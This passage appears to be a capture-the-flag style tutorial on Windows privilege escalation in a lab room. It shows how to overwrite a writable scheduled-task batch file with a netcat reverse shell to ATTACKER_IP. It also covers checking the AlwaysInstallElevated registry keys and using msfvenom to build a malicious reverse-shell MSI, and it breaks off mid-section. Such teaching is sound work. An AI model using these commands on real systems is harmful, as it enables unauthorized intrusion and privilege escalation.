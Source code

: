 ```
```
C:\> schtasks /query /tn vulntask /fo list /v
Folder: \
HostName:                             THM-PC1
TaskName:                             \vulntask
Task To Run:                          C:\tasks\schtask.bat
Run As User:                          taskusr1
```
You will get lots of information about the task, but what matters for us is the "Task to Run" parameter which indicates what gets executed by the scheduled task, and the "Run As User" parameter, which shows the user that will be used to execute the task.
If our current user can modify or overwrite the "Task to Run" executable, we can control what gets executed by the taskusr1 user, resulting in a simple privilege escalation. To check the file permissions on the executable, we use `icacls`:
```
C:\> icacls c:\tasks\schtask.bat
c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
                    BUILTIN\Administrators:(I)(F)
                    BUILTIN\Users:(I)(F)
```
As can be seen in the result, the BUILTIN\Users group has full access (F) over the task's binary. This means we can modify the .bat file and insert any payload we like. For your convenience, `nc64.exe` can be found on `C:\tools`. Let's change the bat file to spawn a reverse shell:
```
C:\> echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
```
We then start a listener on the attacker machine on the same port we indicated on our reverse shell:  `nc -lvp 4444` 
The next time the scheduled task runs, you should receive the reverse shell with taskusr1 privileges. While you probably wouldn't be able to start the task in a real scenario and would have to wait for the scheduled task to trigger, we have provided your user with permissions to start the task manually to save you some time. We can run the task with the following command:
`C:\> schtasks /run /tn vulntask`
And you will receive the reverse shell with taskusr1 privileges as expected: 
```
user@attackerpc$ nc -lvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.175.90 50649
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
wprivesc1\taskusr1
```
## AlwaysInstallElevated
Windows installer files (also known as .msi files) are used to install applications on the system. They usually run with the privilege level of the user that starts it. However, these can be configured to run with higher privileges from any user account (even unprivileged ones). This could potentially allow us to generate a malicious MSI file that would run with admin privileges.
Note: The AlwaysInstallElevated method won't work on this room's machine and it's included as information only.
This method requires two registry values to be set. You can query these from the command line using the commands below.
```
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```
To be able to exploit this vulnerability, both should be set. Otherwise, exploitation will not be possible. If these are set, you can generate a malicious .msi file using msfvenom, as seen below:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
```
As this is a reverse shell, you should also run the Metasploit Handler module configured accordingly. Once you have transferred the file you have created, you can run the installer with the command below and receive the reverse shell:
```